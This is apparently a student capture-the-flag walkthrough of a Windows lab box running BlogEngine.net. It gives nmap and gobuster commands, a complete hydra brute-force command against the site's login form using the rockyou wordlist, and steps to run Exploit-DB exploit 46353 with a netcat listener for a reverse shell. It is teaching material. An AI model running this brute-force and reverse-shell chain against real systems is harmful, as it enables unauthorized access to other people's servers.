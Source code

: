 For this task we will use Burp Suite to grab the packet then we will use hydra to brute force the login.
Burp suite is capible of brute forcing it but it would take a very long time.

You can find burp suite at this address if you do not have it:
	
	https://portswigger.net/burp

We are given the IP address of the target box: 10.10.50.31
The Kali box we are using has an IP of :       10.10.211.188

We know there is a webServer running but if we did not we could run a NMAP scan we also know it is a Windows so we must use -Pn flag:

	nmap -Pn 10.10.50.31

![Nmap](https://v1ndl3r.github.io/CIT480/assets/hakParkNmap.png "Nmap")

We can see there is a website running on the standard port 80 and RDP running.  You may be able to brute force both of these logins.
We will start with the website, putting the IP address into a brower we are greeted with a webpage if we poke around we can find a 
login page. If we could not find a login page we could also scan for directories with gobuster or dirbuster. We can also check robots.txt

![Login](https://v1ndl3r.github.io/CIT480/assets/hakParkLogin.png "Login")

	gobuster scan
	gobuster dir -u http://10.10.50.31/ -w /usr/share/directory-list-2.3-medium.txt

![Gobuster](https://v1ndl3r.github.io/CIT480/assets/hakParkGob.png "Gobuster")

Robots.txt does not give us much information

![Robots](https://v1ndl3r.github.io/CIT480/assets/hakParkRobots.png "Robots")

Now that we know there is a webpage and a login screen we will use Burp to capture the packet and get the required information for hydra:

![Packet](https://v1ndl3r.github.io/CIT480/assets/hakParkCapture.png "Packet")

We know we need to brute force this login and we know we need to use hydra this is the information we can use so far:

![Hydra1](https://v1ndl3r.github.io/CIT480/assets/hakParkHydra1.png "Hydra1")

But there is not alot of information to get the rest to work correctly. The correct command you will need to add the webpage where the 
login is located and add it after the http-post-form:

![Hydra2](https://v1ndl3r.github.io/CIT480/assets/hakParkHydra2.png "Hydra2")

This is still not enough information for the hydra to run correctly we will need to add more from the burp capture:

![Hydra3](https://v1ndl3r.github.io/CIT480/assets/hakParkHydra3.png "Hydra3")

You will need to copy the response and add it after the path to the login form with a : in between then at the end add failed status.
You can get that from burp responses as well:

![Hydra4](https://v1ndl3r.github.io/CIT480/assets/hakParkHydra4.png "Hydra4")

You can see that when the login fails you get a "200" response and the message login failed. Now you have the correct query you just need to tell hydra where to insert the username and password.
Replace the username with ^USER^ and password with ^PASS^ and you get the final query:

	hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.50.31 http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=2KDF2UOGOa8hb0xmx%2BTvjEbBg3hCJenmHN7xXrz9l9xx5BQ0lxkU5lvEREVspANAzpA%2FOSNr7o6gLUv7P%2FojooyocRY%2F9Y0VpLrNPqg3Tgy3VxIMFEEtSHyO9E%2BG7b0MVAHAlj2m%2FYazvXUK1jLWSoQm5gxPREN8SPVnIQG%2B%2BjGPdABh&__EVENTVALIDATION=Ydss8pagi3vLu3k%2B30ihYk9%2BsptmyJGUF%2FRPVohWEVB8E8oWh%2BcukV6unTK0jbmx5GpnXULRlVkzwFEdfL6AxoybWMqqNAhf8dtxptcsbG5sP8sgNoNo8WkrjpKA3AEilBfQ4s3XSfIWW2lHCgkecEdrEBZLpPzSKIJgKAC43x%2B7DRXx&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:F=Login Failed"

![Hydra5](https://v1ndl3r.github.io/CIT480/assets/hakParkHydra5.png "Hydra5")

Searching around the application we can find the name and version blogengine.net 3.3.6.0. Use searchsploit or exploit database archive to find a CVE.
	
	http://www.exploit-db.com/

Once you find the correct exploit in this case 46353 run this command to cp it.

	searchsploit -m 46353 /path/tocopyto/name.py

Once you have copied the exploit you can edit it and add your IP and listening port, then start an netcat listener:

	nc -lvnp 443

Make sure this listener port and the port in the exploit match.

You should now have a basic user shell on the webserver.
